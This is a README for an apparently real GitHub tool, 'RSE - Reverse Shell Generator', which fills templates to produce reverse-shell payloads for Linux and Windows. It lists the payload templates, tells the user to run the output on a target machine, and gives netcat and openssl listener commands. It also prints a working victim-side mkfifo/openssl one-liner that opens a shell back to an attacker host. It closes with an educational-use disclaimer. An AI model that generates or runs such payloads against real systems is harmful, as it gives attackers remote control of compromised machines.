


# RSE - Reverse Shell Generator






## What id RSE? Reverse Shell Engine 
This tool is just a compilation of many reverse shells found on the internet and some other contributions.

A reverse shell is a remote control technique where a target computer, after being compromised by an attacker's code, establishes a connection back to the attacker's machine. This allows the attacker to gain command-line access and control over the target system, often used in cyberattacks for remote exploitation or unauthorized access. Reverse shells are a method to bypass certain network restrictions, but their use should strictly adhere to ethical and legal guidelines.

This tool is just a quick help to handy copy and paste any revshell you need at any moment in seconds. 

# Installation

Just clone this repository and you're ready to go.

`git clone git@github.com:zpol/reverse-shell-engine.git`

and

`cd reverse-shell-engine`


# How it works

## Quickstart 

Just run: 

`./rse.sh` 

The application will start by promting a message asking for the IP/hostname and port where to listen to. 
Once the application has this data it will show you a selector where choose from different reverse shells for different languages and operating systems (note that you can search/filter by start typing). 

After that the application will craft that with the specified parameters and output the revershe shell and a base64 encoded version.

Use the payload generated to execute that in the target machine. You will need to previously have a listener in that IP and PORT you specified when creating the payload. In most cases a simple netcat will do the trick: `nc -l -p <port>`


## Reverse Shell types and how they work: 

In most cases `ncat` or `nc` will work but in some cases you will need to setup some stuff before being able to accept an incomming connection with some revshell types. 

So for the most cases you can just use on your listenning machine something like: 

`nc -l -p <port>`

When the client makes connection to your server you will be able to execute some commands on the other side.

### OpenSSL
```
user@attack$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days
user@attack$ openssl s_server -quiet -key key.pem -cert cert.pem -port <port>
```
or
```
user@attack$ ncat --ssl -vv -l -p <port>
user@victim$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ip>:<port> /tmp/s; rm /tmp/s
```
TLS-PSK (does not rely on PKI or self-signed certificates)
```
openssl rand -hex 48


# server (attacker)
export LHOST="*"; export LPORT="4242"; export PSK="replacewithgeneratedpsk"

# client (victim)
export RHOST="10.0.0.1"; export RPORT="4242"; export PSK="replacewithgeneratedpsk"
```


## Some more information

In the root of the repository you can find the following files: 

```
├── img                                     (some images)
├── README.md           
├── rsh.sh                                  (main program)
└── tpl                                     (templates dir)
    ├── index                               (template index)
    ├── linux-bash-tcp-noenc-0.tpl          (template)
    ├── linux-bash-tcp-noenc-1.tpl
    ├── linux-bash-tcp-noenc-2.tpl
    ├── linux-bash-udp-noenc-0.tpl
    ├── linux-perl-tcp-noenc-0.tpl
    ├── linux-perl-tcp-noenc-1.tpl
    ├── linux-python-tcp-noenc-0.tpl
    ├── linux-python-tcp-noenc-1.tpl
    ├── linux-python-tcp-noenc-2.tpl
    ├── linux-python-tcp-noenc-3.tpl
    ├── windows-perl-tcp-noenc-0.tpl
    ├── windows-powershell-tcp-noenc-0.tpl
    ├── windows-pyton-tcp-noenc-0.tpl
    └── windows-ruby-tcp-noenc-0.tpl

```

The index file is used to show all the options when selecting the reverse shell template. 
This file is automatically creaded every time the program is executed so if you create new payloads under the `tpl` folder there's no need to update the index since it's done automatically.

# Contribute

Thank you for considering contributing to this project! Here's how you can get started:

- Contact the author
- Feel free to report any issue, improvement or suggestion
- Fork the repository and create your branch from `main`.
- Clone the repository to your local machine.
- Make your changes and commit them with descriptive messages.
- Push your changes to your fork.
- Create a pull request (PR) to our `main` branch.
- Be patient! We'll review your PR and provide feedback.

Please make sure to follow our [code of conduct](CODE_OF_CONDUCT.md) and our [contribution guidelines](CONTRIBUTING.md). We appreciate your help!


 

 # ⚠️ DISCLAIMER 
## Educational Use Only

The use of this tool or software is intended solely for educational and learning purposes. 

It is not intended for any illegal, unethical, or malicious activities. By using this tool, you agree that:

You will use it exclusively for educational and non-malicious purposes. You will not engage in any illegal or harmful activities using this tool.You understand that the tool is provided as-is, without any warranties or guarantees of any kind.You accept full responsibility for any actions you undertake with this tool and any consequences that may arise.You release the creators, maintainers, and distributors of this tool from any legal liability or responsibility for its use.You will comply with all applicable laws and regulations while using this tool. Please be aware that misuse of this tool may have serious legal and ethical consequences. Always ensure that you have the appropriate permissions and consent before using it in any context.

By using this tool, you acknowledge and agree to the terms and conditions outlined above.
